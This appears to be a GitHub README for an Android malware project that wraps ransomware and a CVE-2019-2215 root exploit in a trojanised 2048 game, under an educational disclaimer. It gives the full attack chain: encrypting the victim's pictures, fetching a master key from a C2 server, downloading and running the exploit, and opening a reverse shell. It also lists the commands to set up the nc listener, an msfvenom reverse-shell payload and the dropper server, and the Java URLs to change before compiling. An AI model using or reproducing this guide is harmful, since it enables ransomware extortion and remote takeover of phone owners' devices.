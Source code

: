 # Rootsmart 2.0 w/ cve-2019-2215 + Ransomware

Disclaimer:
This project is solely for educational purposes. This project utilise code from [rkshrksh/2048-Game](https://github.com/rkshrksh/2048-Game).

Attack Vector:

1. Install, run the application and grant permissions
2. Ransomware will AES encrypt all files in /sdcard/Pictures
3. Each file will be encrypted with a random generated key
4. Keys will be stored in /sdcard/keys.json where each key:value pair is filepath:key
5. GET HTTP to C2 server /get_mk to retrieve MasterKey and VictimID in response body
6. MasterKey will encrypt keys.json, VictimID will be stored in /sdcard/victimID.txt
7. The application will download shells.zip and unzip the contents
8. Execute cve-2019-2215 binary from the unzipped contents
9. A root shell process will be spawn and will run install.sh from the unzipped contents
10. Install.sh will execute rs.elf from the unzipped contents to send a reverse connection to attack server


---

## C2 (Command & Control) - Setup
For this test, ensure that the victim phone and the C2 server are in the same subnet (otherwise host C2 in public internet).

Reverse Shell Server
```bash
nc -lvnp 1337 # Ideally this should be the same IP as the dropper server
```

Dropper Server
```bash
# Generate rs.elf payload
msfvenom -p linux/aarch64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> -f elf > rs.elf

# Better to run flask on Windows if WSL don't port forward localhost traffic to Windows Host
cd dropper
python3 -m venv venv # Create venv

# Activate venv
. venv/bin/activate # Linux
venv\Scripts\activate.bat # Windows
pip install -r requirements.txt --upgrade pip # Make sure host shell is root/Administrator

# Run C2 server
python3 dropper_server.py # WSL
python dropper_server.py # Windows
```

shells.zip in /dropper
1. Go to dropper/cve-2019-2215 folder
2. After creating rs.elf, zip rs.elf + cve-2019-2215, install.sh
3. Rename zip file to shells.zip
4. Move shells.zip to /dropper

## Modify the following before compiling APK

Java Classes
```java
// File : 2048-Game/app/src/main/java/aarkay/a2048game/Temproot.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/process_command"; // Line 20

// File : 2048-Game/app/src/main/java/aarkay/a2048game/Encrypt.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/get_mk"; // Line 45
```





